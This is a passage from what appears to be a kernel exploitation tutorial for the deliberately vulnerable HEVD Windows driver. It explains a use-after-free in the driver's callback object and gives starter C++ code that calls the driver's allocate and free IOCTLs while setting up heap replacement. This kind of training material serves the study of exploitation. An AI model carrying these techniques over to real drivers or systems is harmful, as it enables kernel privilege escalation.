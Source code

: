 This in itself would not be a huge issue but this global variable is actually being used by `UseUaFObjectNonPagedPool` which is running a method called `Callback` on it:

```cpp
NTSTATUS UseUaFObjectNonPagedPool(VOID) {
    ...
    if (g_UseAfterFreeObjectNonPagedPool->Callback) {
        g_UseAfterFreeObjectNonPagedPool->Callback();
    }
    ...
}
```

When the global object has been freed and this function is invoked, we would have undefined behavior. One possibility is that another object of the same size could take its place, and then the driver would attempt to call the `Callback` function on the new object instead (which for a random object will likely fail since its memory layout will be completely different). HEVD has a `AllocateFakeObjectNonPagedPool` function that conveniently allows us to create a user-controlled object of the same size. There is however the issue of getting it exactly into the spot of the just before freed object – windows randomizes heap allocations so a new allocation could be created anywhere.

## Exploitation

Before starting with any exploitation we have to understand where our object is, how big it is and what a replacement object should look like. We also need to find a way to fill the hole with our object which is not straightforward.

We start with some template code that just allocates the object, triggers a breakpoint, and then frees the object again should we let execution continue:

```cpp
#include <stdio.h>
#include <Windows.h>

#define ALLOCATE_UAF_IOCTL 0x222013
#define FREE_UAF_IOCTL 0x22201B
#define USE_UAF_IOCTL 0x222017

int main() {
    DWORD bytesWritten;
    HANDLE hDriver = CreateFile(L"\\\\.\\HacksysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE) {
        printf("[!] Error while creating a handle to the driver: %d\n", GetLastError());
        exit(1);
    }    
    
    // Allocate UAF Object
    DeviceIoControl(hDriver, ALLOCATE_UAF_IOCTL, NULL, NULL, NULL, 0, &bytesWritten, NULL);
    // Debug
    DebugBreak();
    // Free UAF Object
    DeviceIoControl(hDriver, FREE_UAF_IOCTL, NULL, NULL, NULL, 0, &bytesWritten, NULL);

    return 0;
}
```
